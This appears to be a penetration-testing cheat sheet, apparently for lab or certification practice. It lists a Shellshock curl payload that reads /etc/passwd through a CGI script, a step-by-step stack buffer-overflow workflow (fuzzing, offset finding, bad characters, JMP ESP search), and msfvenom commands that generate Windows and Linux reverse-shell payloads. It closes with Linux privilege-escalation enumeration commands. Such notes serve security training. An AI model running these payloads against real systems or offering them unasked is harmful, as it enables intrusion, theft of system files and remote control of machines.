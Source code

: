
## SHELLSHOCK
- `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" <URL>/cgi-bin/<SCRIPT>`


## Buffer Overflow
- <https://github.com/cytopia/badchars>
- Spike
  - `generic_send_tcp 192.168.174.1 31337 ~/Code/buffer-overflow/stats.spk 0 0`

- Fuzz
  - `~/Code/buffer-overflow/fuzzer.py`

- Generate unique pattern:
  - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <bufferlen>`

- Finding the offset
  - `~/Code/buffer-overflow/offset.py`
  - (1) `/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <bufferlen> -q <EIP address>`
  - (1) `!mona findmsp`

- Confirm offset
  - `~/Code/buffer-overflow/overwrite_eip.py`
- Find badchars
  - `~/Code/buffer-overflow/badchars.py`

- Find Jump
  - `!mona modules`
  - `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb > JMP ESP`
  - (1) `!mona find -s "\xff\xe4" -m <unprotected module>`
  - (1) `!mona jmp -r ESP -m <unprotected module> / !mona jmp -r esp -cpb "<badchars>"`

- Exploit buffer overflow
  - (1) `msfvenom -p windows/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"`
  - (1) `msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.174.128 LPORT=4444 -f c -b "\x00,\x20"`
  - `~/Code/buffer-overflow/exploit_buffer_overflow.py`


## USEFUL LINUX COMMANDS
- Find a file
  - `locate <FILE>`
  - `find / -name "<FILE>"`
- Active connection
  - `netstat -lntp`
- List all SUID files
  - `find / -perm -4000 2>/dev/null`
- Determine the current version of Linux
  - `cat /etc/issue`
- Determine more information about the environment
  - `uname -a`
- List processes running
  - `ps -faux`
- List the allowed (and forbidden) commands for the invoking use
  - `sudo -l`
